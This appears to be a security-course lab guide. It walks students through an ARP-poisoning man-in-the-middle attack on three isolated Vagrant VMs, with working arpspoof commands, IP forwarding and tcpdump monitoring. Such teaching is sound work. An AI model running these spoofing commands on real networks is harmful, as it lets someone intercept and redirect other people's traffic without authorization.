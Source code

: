 = ARP Poisoning for Man-in-the-Middle Attacks

Address Resolution Protocol (ARP) is used to map IP addresses to MAC (hardware) addresses. The ARP protocol works at the data link layer, such as when computers communicate directly with other computers connected to a switch. Computers, switches, and routers maintain caches of IP addresses and the hardware addresses associated with those IP addresses to facilitate communication. The ARP protocol can be attacked so that traffic can be redirected.

In this lab, you will execute a man-in-the-middle attack using ARP poisoning.

== Prerequisites

* VirtualBox installed with 64 bit operating support enabled
* Vagrant installed
* SSH available from the command line
* An Internet connection

== Lab Overview

In this exercise, there will be three virtual machines.

1. Victim. 192.168.10.10. This virtural machine just wants to connect to the server.
2. Middle. 192.168.10.50. This is the machine that will be executing the attack between the victim and the server.
3. Server. 192.168.10.100. This machine only exists to respond to ping requests.

The virtual machines are only configured to use 200 MB of memory each, so running them all on your hardware should be fine.

== Start the Virtual Machines

Copy the following text to a file. Save it in a new folder with the name `Vagrantfile`. Be sure that you do not save the file as Vagrantfile`.txt`.

```
# -*- mode: ruby -*-
# vi: set ft=ruby :

Vagrant.configure(2) do |config|

config.vm.provision "shell", inline: "echo Starting victim, middle, and server"

config.vm.provider "virtualbox" do |v|
v.memory = 200
end

config.vm.define "victim" do |victim|
victim.vm.box = "ubuntu/trusty64"
victim.vm.host_name = "victim"
victim.vm.network "private_network", ip: "192.168.10.10"
victim.vm.box_check_update = false
end

config.vm.define "middle" do |middle|
middle.vm.box = "ubuntu/trusty64"
middle.vm.host_name = "middle"
middle.vm.network "private_network", ip: "192.168.10.50"
middle.vm.box_check_update = false
end

config.vm.define "server" do |server|
server.vm.box = "ubuntu/trusty64"
server.vm.host_name = "server"
server.vm.network "private_network", ip: "192.168.10.100"
server.vm.box_check_update = false
end
  
end
```

* Open a command prompt and navigate to the folder where you put `Vagrantfile`.
* Run `vagrant up` to bring up `3` virtual machines.
* Open `four` more command prompts and go to the folder where you put `Vagrantfile`. For example, I put `Vagrantfile` in `C:\temp\arp`. In the following screenshot, you can see that four command prompts are open.
+
image::three-cmd-prompts.png[]
* In the first command prompt, run `color 02` to change the font color to green. (Think green=good). This command window will connect to the victim who just wants to get her work done.
+
```
color 02
```
* In the remaining three command prompts run `color 04` to change the font color to red (think red=rogue).
* In the green command prompt, run the following command to connect.
+
```
vagrant ssh victim
```
* In the three red command prompts, run the following command to connect.
+
```
vagrant ssh middle
```
* In the victim (green) termina, ping the server and leave the ping running.
+
```
ping 192.168.10.100
```
* In a red (middle/attacker) terminal, run `ifconfig`. Notice that there are two network adapters. One network adapter on the 10.0.2.0/24 network will give  you internet access. The 192.168.10.0/24 network will allow you to communicate between the virtual machines.

== Install Arpspoof

In your the first red command prompt, run the following command to install the `arpspoof` utility.

```
sudo apt-get install dsniff
```

Press `y` to accept the installation.

== Using Arpspoof

The syntax is `arpspoof -i [interface] -t [target] host`. You will need to poison both the victim and the server.

Run the following command in one of the atacker command prompts.

```
sudo arpspoof -i eth1 -t 192.168.10.100 192.168.10.10
```

In another command prompt, run the following command to poison the other host.

```
sudo arpspoof -i eth1 -t 192.168.10.10 192.168.10.100
```

The pings should stop. Traffic is being directed through the middle computer, but the requests are not being forwarded. The attacker is now the man in the middle.

```
sudo su
echo 1 > /proc/sys/net/ipv4/ip_forward
```

Running `sudo su` simply elevates privileges. Running `echo 1 > /proc/sys/net/ipv4/ip_forward` changes the file names `ip_forward` so that it contains a `1` instead of a `0`. This tells the attacker to forward packets that are not destined for it.

As soon as forwarding is turned on, the ping requests should begin to succeed again.

== Challenge

* Use `tcpdump` to view the traffic on the 192.168.10. network while you manipulate the ARP caches. The current setup gives each of the virtual machines two network interfaces. You should monitor the `eth1` interface.
+
```
sudo tcpdump -i eth1
```

== Cleanup

* Exit from all SSH sessions.
* Run `vagrant destroy` to delete the three virtual machines.